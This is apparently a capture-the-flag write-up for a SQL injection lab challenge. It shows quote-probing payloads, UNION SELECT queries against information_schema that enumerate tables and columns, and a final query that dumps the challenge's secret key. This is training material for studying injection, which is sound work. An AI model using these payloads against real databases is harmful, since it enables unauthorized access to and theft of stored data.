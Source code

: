 # Challenge - 3

This challenge is similar to the previous two challenges and we have 14 tries to dump the secret key

## Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+

0" or 1=1 --+

0) or 1=1 --+
```

which doesn't give any output and id=

```sql
0') or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id=('input') 
```

### Solving

Now we can find table name like in the previous problem using

```sql
0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :
**g3xh31tkpv**

Now we can find the columns in the table using

```sql
0') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='g3xh31tkpv' and table_schema='CHALLENGES'; --+
```

we get 4 column names:
**id,sessid,secret_WP9T,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0') union select 1,2,group_concat(secret_WP9T) from g3xh31tkpv; --+
```

We get the secret key:
**fC3cDPza7ljnkhuhIHAlDw6o**
